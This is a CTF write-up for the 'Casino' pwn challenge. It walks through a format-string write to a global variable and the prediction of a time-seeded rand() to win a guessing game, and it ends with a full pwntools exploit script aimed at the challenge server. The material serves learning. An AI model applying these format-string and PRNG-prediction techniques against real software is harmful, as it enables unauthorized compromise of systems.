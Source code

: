 # Casino (pwn)
Even though this had a low point value, this is definitely the hardest CTF binary exploitation challenge that I have solved in a long while...

## Problem Statement:

![alt text](imgs/problem_statement.PNG "Chall")

## Initial Analysis:
As always, with every binary exploitation problem, we begin by taking a look at the protections enabled on the binary:

![alt text](imgs/checksec.PNG "checksec")

What's noteworthy is that full-RELRO is enabled. Normally, this is disabled for performance reasons. Since full-RELRO makes the GOT-table read only, we can infer that one of the vulnerabilities could allow us to write to the GOT table, and so we need to find some other ways to exploit this program. Let's run this binary and see what happens:

![alt text](imgs/init.PNG "init")

Ok, there seems to be some number guessing going on (hence the name "casino"). Also, the first input that we gave to the program is echo'd out back to us. From experience, this might hint to us to try out format strings, which is confirmed below:

![alt text](imgs/fmt.PNG "fmt")

This also explains why full-RELRO is enabled on the binary. Now, time to look at the assembly code for in-depth analysis.

## Disassembly Analysis:

Below is the code for the random seed generation:

![alt text](imgs/seedgen.PNG "seedgen")

and below is the code for the random numbers:

![alt text](imgs/randgen.PNG "randgen")

Basically, time() is called with a given parameter of 0, which returns the current epoch time in seconds. Frequently, this is enough to serve as a seed of rand(), however within this program it gets a bit more complex. The "mov edx, cccccccDh; mul edx" instructions multiplies the time by 0xcccccccd, the "shr eax, 3" instruction shifts the most significant 32 bits of eax from the multiplication result to the right by 3, and the "mov eax, cs:bet; add [rbp+seed], eax;" adds the final result by whatever is stored in the global variable bet. This is then finally saved as the seed for the srand() function. Although this looks complicated, we can emulate the seed generation by using the below python snippet:

```python
seed = int(time())
seed = seed * 0xcccccccd
seed = int(str(hex(seed))[:10], 16)
seed = seed >> 3
seed = seed + bet
```

The rest of main() generates 100 values based on the returned result of rand(). Using the same idea described in one of the challenge writeups in [TJCTF](https://medium.com/@mihailferaru2000/tjctf-2018-full-binary-exploitation-walk-through-a72a9870564e), we can generate 100 values using the rand() number generater by passing the seed as a command line parameter below:

```C
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
    int seed = atoi(argv[1]);
    srand(seed);
    for(int i = 0; i < 100; i++) {
        printf("%d\n", rand());
    }
    return 0;
}
```
Combine the output of the 100 numbers, and we should be good to go............
![alt text](imgs/almost.PNG "almost")
...........or not.

## Format string attack

What went wrong? Well, a closer look at the disassembly reviewed the answer. A value "which I named dowewin" is initialized with 0, and after each random number guess, it is incremented by the value of bet, which was initially set to 1. However, since we start at 0, after 100 numbers, we only reach 99. This "dowewin" value must be greater than 100 after all the numbers are guessed, so even after we finished generating all the values, we won't be able to get the flag. Foiled!

...however, remember from earlier, we have a format string vulnerability. Although we cannot write to the GOT table, we can write to bet, since it is a global variable that is located in the .data section of the binary at address 0x602020, which has read/write permissions.

Unfortunately when we tried to write anything to that location, we ran into a few more problems:

First, our buffer is only 16 bytes long, which is very, very small. The second issue is illustrated below:
![alt text](imgs/nullbyteproblem.PNG "almost")
It's very subtle, but the second issue is that printf stops when it hits a single null byte (otherwise the AAA's will be printed), as C-strings are null terminated. However since 0x602020 is only a 24 bit address and printf only reads 64-bit addresses at a time, we must fill the rest of the 64-bit value with null bytes.

This issue caused me 4 hours of pain, as I tried various methods of overflow, writing 0x602020 to some arbitrary location on the heap and fetching it, and writing 0x602020 to the stack itself and getting lucky with ASLR

Eventually, I worked around it by writing the address to the last 64 bits of the buffer, and doing the format string attack with the first 64 bits of the buffer, and it finally worked:

![alt text](imgs/write.PNG "write")

The 'bet' variable is now 9 instead of 1, so the seed generation portion of the exploit must be adjusted accordingly. After that, it was smooth sailing from there.

## Full exploit script:
```python
from pwn import *
from time import time
import subprocess

bet = 0x602020

game = remote('35.243.188.20', 2001)

#Overwrite bet with 0x9, so that the casino can't cheat me (easily the hardest part)
game.recvuntil("name? ")
fmtstr = "%9x%11$n"
fmtstr += "\x20\x20\x60\x00\x00\x00\x00\x00"
game.sendline(fmtstr)

#Abuse the PRNG that is seeded with the current time after multiplying with 0xcccccccd, stripping the lower half, and shifting right by 3
seed = int(time())
log.info("Current time: " + str(seed))
seed = seed * 0xcccccccd
seed = int(str(hex(seed))[:10], 16)
seed = seed >> 3
seed = seed + 9

log.success("Random seed value: " + str(seed))

#Generate the 100 values with the calculated seed value
log.info("Generating 100 values with the calculated seed value...")
rng = subprocess.Popen(['./rand', str(seed)], stdout=subprocess.PIPE)
output = rng.stdout
log.success("Values Generated!")


valueList = []
for i in range(100):
	valueList.append(output.readline().strip())
log.success("Values Filled!")

#Play the game!
for value in valueList:
	progress = game.recvuntil("number: ")
	print progress
	log.info("Trying " + str(value))
	game.sendline(str(value))
	result = game.recvline()
	if "Sorry!" in result:
		log.failure("Guess was incorrect. Aborting...")
		exit()
	elif "Correct" in result:
		if "99/100" in progress:
			log.success("WE FINALLY WIN!")
			win = game.recvline()
			print win
			flag = game.recvuntil('}')
			print flag
			exit()
		log.success("Guess was correct! Keep going...")
```
## Epilogue
And after much blood, sweat, and tears, we finally get the flag:

![alt text](imgs/finally.PNG "finally")

Thanks to the fireshell CTF team for this challenge, it caused me to rage so much but getting the flag at the end was so worth it!




